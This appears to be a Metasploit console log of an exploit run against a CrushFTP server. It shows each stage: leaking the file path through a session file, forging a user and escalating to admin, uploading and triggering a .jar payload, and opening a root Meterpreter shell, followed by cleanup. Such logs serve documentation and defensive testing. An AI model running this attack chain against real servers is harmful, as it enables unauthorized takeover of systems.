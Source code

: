 ```
[*] Looking for the egg in the session file
[*] Getting a new anonymous session
[*] Anonymous session cookie: 1711131609587_sKMgxtPNJg78LMAQkx7uLVEOUGyD4G
[*] Getting session file at `WebInterface/Resources/libs/jq-3.6.0_4cf0853fb7-js/`
[+] Session file downloaded
[*] Logging out session cookie `1711131609587_sKMgxtPNJg78LMAQkx7uLVEOUGyD4G`
[*] Found the egg at FILE://home/ubuntu/CrushFTP10/home/readonly/writable1/e5d3f50f45 in the session file
[+] Found path `/home/ubuntu/CrushFTP10/home/readonly/writable1/` and it is Unix-like
[+] Found the file system path: /home/ubuntu/CrushFTP10/home/readonly/writable1/
[*] Getting a new anonymous session
[*] Anonymous session cookie: 1711131611903_PY71NprjquBlrPlZhYdnyk5JHGNfzo
[*] The forged user will be `9721e30b7c`
[*] Moving user.XML from /home/ubuntu/CrushFTP10/home/readonly/writable1/ to `9721e30b7c` home folder and elevate privileges
[*] Logging out session cookie `1711131611903_PY71NprjquBlrPlZhYdnyk5JHGNfzo`
[*] Logging into the elevated account
[*] [do_login] Logging in with username `9721e30b7c` and password `7ae6ef77cf`
[+] Logged in! Now let's create a temporary admin account
[*] Logging out session cookie `1711131613590_9nhaTwXZIH9hpyGCnJkgCd9vKAZrEI`
[+] Administrator account created: username=4c07767049, password=1267096390
[*] [do_login] Logging in with username `4c07767049` and password `1267096390`
[*] Uploading payload .jar file `926f.jar` to /var/tmp/926f.jar
[*] Triggering the payload
[*] Cleanup the temporary admin account
[*] Started bind TCP handler against 192.168.101.96:4444
[*] Sending stage (57971 bytes) to 192.168.101.96
[+] Deleted /home/ubuntu/CrushFTP10/home/readonly/writable1/e5d3f50f45
[+] Deleted /var/tmp/926f.jar
[+] Deleted ./WebInterface/Resources/libs/jq-3.6.0_4cf0853fb7-js
[*] Meterpreter session 14 opened (10.4.227.33:50007 -> 192.168.101.96:4444) at 2024-03-22 19:20:23 +0100

meterpreter > getuid
Server username: root
meterpreter > sysinfo
Computer        : ip-10-10-0-10
OS              : Linux 6.5.0-1014-aws (amd64)
Architecture    : x64
System Language : en
Meterpreter     : java/linux
```



